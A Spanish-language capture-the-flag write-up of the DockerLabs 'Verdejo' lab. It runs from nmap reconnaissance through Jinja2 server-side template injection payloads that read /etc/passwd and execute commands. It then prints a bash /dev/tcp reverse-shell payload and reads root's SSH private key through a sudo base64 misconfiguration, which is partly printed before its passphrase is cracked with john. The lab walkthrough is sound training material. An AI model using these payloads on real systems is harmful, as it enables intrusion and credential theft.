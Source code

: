 ```yaml
---
title: DockerLabs - Verdejo
summary: "Write-up del laboratorio Verdejo de DockerLabs"
author: elcybercurioso
date: 2025-10-28 12:00
categories: [Post, DockerLabs]
tags: [fácil, ssti, sudo]
media_subpath: "/assets/img/posts/dockerlabs_verdejo"
image:
  path: main.webp
published: true
---
```


## nmap

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Verdejo]
└─$ nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 23:39 GMT
Initiating ARP Ping Scan at 23:39
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 23:39, 0.09s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 23:39
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 8089/tcp on 172.17.0.2
Completed SYN Stealth Scan at 23:39, 10.33s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.000031s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8089/tcp open  unknown
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.63 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65541 (2.622MB)
```

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Verdejo]
└─$ nmap -sCV -p22,80,8089 172.17.0.2                          
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 23:39 GMT
Nmap scan report for consolelog.lab (172.17.0.2)
Host is up (0.000058s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 dc:98:72:d5:05:7e:7a:c0:14:df:29:a1:0e:3d:05:ba (ECDSA)
|_  256 39:42:28:c9:c8:fa:05:de:89:e6:37:62:4d:8b:f3:63 (ED25519)
80/tcp   open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.59 (Debian)
8089/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-title: Dale duro bro
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.24 seconds
```

## análisis

Tras revisar el puerto 80 del laboratorio, no encontramos ninguna forma de seguir.

Por ello, seguimos revisando el puerto 8089:

![Desktop View](/20251028004643.webp){: width="972" height="589" .shadow}

Probamos a ver si es vulnerable a un ataque `SSTI` (Server Site Template Injection), y resulta que sí que lo es:

![Desktop View](/20251028004740.webp){: width="972" height="589" .shadow}

En [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) podemos encontrar numerosos payloads que podemos ir probando hasta dar con algunos que nos valgan para cada caso.

Para leer ficheros podemos emplear el siguiente payload ([PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---read-remote-file)):

{% raw %}
```bash
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```
{% endraw %}

![Desktop View](/20251028004933.webp){: width="972" height="589" .shadow}

Sin embargo, el siguiente payload nos interesa más, ya que nos permite ejecutar comandos: ([PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#exploit-the-ssti-by-calling-subprocesspopen)):

{% raw %}
```bash
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```
{% endraw %}

![Desktop View](/20251028005131.webp){: width="972" height="589" .shadow}

## explotación

Empleando el payload anterior que nos permite ejecutar comandos, obtenemos una reverse shell en la máquina:

![Desktop View](/20251028011504.webp){: width="972" height="589" .shadow}

El payload empleado:

{% raw %}
```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1\'').read() }}
```
{% endraw %}

Vemos que obtenemos acceso a la maquina como el usuario `verde`:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Verdejo]
└─$ nc -nlvp 4444                                                        
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 50248
bash: cannot set terminal process group (94): Inappropriate ioctl for device
bash: no job control in this shell
verde@b2cec569817d:~$ whoami
whoami
verde
```

Tratamos la tty para poder operar en una consola completamente interactiva:

```bash
verde@b2cec569817d:~$ script -c bash /dev/null
script -c bash /dev/null
Script started, output log file is '/dev/null'.
verde@b2cec569817d:~$ ^Z
zsh: suspended  nc -nlvp 4444
                                                                                                                                                                                                                  
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Verdejo]
└─$ stty raw -echo;fg             
[1]  + continued  nc -nlvp 4444
                               reset xterm
verde@b2cec569817d:~$ export TERM=xterm
verde@b2cec569817d:~$ export SHELL=bash
verde@b2cec569817d:~$ stty rows 51 columns 211
```

## escalada de privilegios

Revisamos los permisos SUDO del usuario `verde`, y vemos que puede ejecutar el binario `base64` como el usuario `root`:

```bash
verde@b2cec569817d:~$ sudo -l
Matching Defaults entries for verde on b2cec569817d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User verde may run the following commands on b2cec569817d:
    (root) NOPASSWD: /usr/bin/base64
```

 Encontramos en [GTFOBins](https://gtfobins.github.io/gtfobins/base64/#sudo) que cuando tengamos permisos SUDO sobre el binario `base64` podemos leer ficheros con permisos de `root`:

![Desktop View](/20251028011841.webp){: width="972" height="589" .shadow}

Tras revisar algunos ficheros, nos damos cuenta de que en la carpeta `/root/.ssh/`, el fichero `id_rsa` existe, y debido a los permisos SUDO, lo podemos leer:

```bash
verde@b2cec569817d:~$ sudo base64 "/root/.ssh/id_rsa" | base64 --decode
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABAHul0xZQ
r68d1eRBMAoL1IAAAAEAAAAAEAAAIXAAAAB3NzaC1yc2EAAAADAQABAAACAQDbTQGZZWBB
...
Il/gI3f1l4YTSf/u4JbWrZq+eM4rXwV0pKEzt0BAwOQyGmYkFLWXjI/qtVsoeOGM6dHl1y
U21YeBLGkC2aAEPH7sOcaU5rbR9ra6Fb22zgkso3f6lrLzuz/AB9XjF571YzdDdZ/36xEW
vEACJSQrQKz9mWnewtRP5pzZk=
-----END OPENSSH PRIVATE KEY-----
```

Esto nos permite acceder a la maquina como el usuario `root` sin proporcionar la contraseña. Sin embargo, vemos que la clave id_rsa se encuentra encriptada:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Verdejo]
└─$ ssh -i id_rsa root@172.17.0.2                                                      
Enter passphrase for key 'id_rsa': 
root@172.17.0.2's password:
```

Por ello, podemos tratar de obtener la clave por fuerza bruta:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Verdejo]
└─$ john -w=/usr/share/seclists/Passwords/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
h*****           (id_rsa)     
1g 0:00:01:11 DONE (2025-10-28 00:23) 0.01396g/s 50.05p/s 50.05c/s 50.05C/s cougar..fresa
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Indicando la clave, vemos que ahora accedemos correctamente a la maquina como el usuario `root`:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Verdejo]
└─$ ssh -i id_rsa root@172.17.0.2                         
Enter passphrase for key 'id_rsa': 
Linux b2cec569817d 6.16.8+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.16.8-1kali1 (2025-09-24) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed May 22 10:36:51 2024 from 172.17.0.1
root@b2cec569817d:~# whoami
root
```